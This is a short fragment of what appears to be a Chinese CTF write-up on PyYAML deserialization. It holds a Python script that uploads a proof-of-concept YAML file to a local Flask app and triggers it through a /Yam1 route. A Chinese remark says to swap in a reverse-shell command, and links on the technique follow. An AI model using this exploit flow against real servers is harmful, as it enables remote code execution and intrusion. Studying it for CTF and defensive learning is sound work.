url = "http://127.0.0.1:5000"

filename = "poc.yaml"

with open(file=filename, mode="r") as file:
    files = {'file': (filename, file)}
    response = requests.post(url + "/upload", files=files)
    print(response.text)

res = requests.post(url + "/Yam1?filename=poc")
print(res.text)
```


把命令换成弹shell的就行

参考：

<https://www.tr0y.wang/2022/06/06/SecMap-unserialize-pyyaml/>

<https://www.cnblogs.com/icfh/p/17760855.html>
